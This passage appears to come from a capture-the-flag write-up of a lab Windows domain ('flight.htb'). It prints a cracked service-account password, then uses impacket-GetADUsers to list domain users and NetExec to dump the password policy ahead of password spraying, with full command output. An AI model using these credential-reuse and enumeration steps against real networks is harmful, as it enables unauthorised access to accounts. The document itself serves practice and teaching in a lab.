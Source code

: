 We were able to crack the hash successfully and got the following credentials:

```shell
svc_apache:S@Ss!K@*t13
```

### Using svc_apache credentials to enumerate Domain Users
Now that we have the credentials of svc_apache, we can try to enumerate the users on the domain:

```shell
impacket-GetADUsers -all -dc-ip 10.129.228.120 flight.htb/svc_apache:'S@Ss!K@*t13' | awk 'NR>3 {print $1}' >> domain_users.txt
```

Remove the first 2 lines and we will get a clean list with only the domain users we found:

```shell
Administrator
Guest
krbtgt
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
```

### Checking Domain Password Policy and Password Spraying with NetExec to check Password Reuse and find credentials of the user S.Moon

Now that we got a list of valid domain user names, we can try checking if there is some password reuse and see if any user is using the same password as svc_apache.

Lets enumerate Domain Password Policy before we try any Password Spraying:

```shell
nxc smb 10.129.228.120 -u 'svc_apache' -p 'S@Ss!K@*t13' --pass-pol
```

```shell
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [+] Dumping password info for domain: flight
SMB         10.129.228.120  445    G0               Minimum password length: 7
SMB         10.129.228.120  445    G0               Password history length: 24
SMB         10.129.228.120  445    G0               Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.129.228.120  445    G0               
SMB         10.129.228.120  445    G0               Password Complexity Flags: 000001
SMB         10.129.228.120  445    G0                   Domain Refuse Password Change: 0
SMB         10.129.228.120  445    G0                   Domain Password Store Cleartext: 0
SMB         10.129.228.120  445    G0                   Domain Password Lockout Admins: 0
SMB         10.129.228.120  445    G0                   Domain Password No Clear Change: 0
SMB         10.129.228.120  445    G0                   Domain Password No Anon Change: 0
SMB         10.129.228.120  445    G0                   Domain Password Complex: 1
SMB         10.129.228.120  445    G0               
SMB         10.129.228.120  445    G0               Minimum password age: 1 day 4 minutes 
SMB         10.129.228.120  445    G0               Reset Account Lockout Counter: 30 minutes 
SMB         10.129.228.120  445    G0               Locked Account Duration: 30 minutes 
```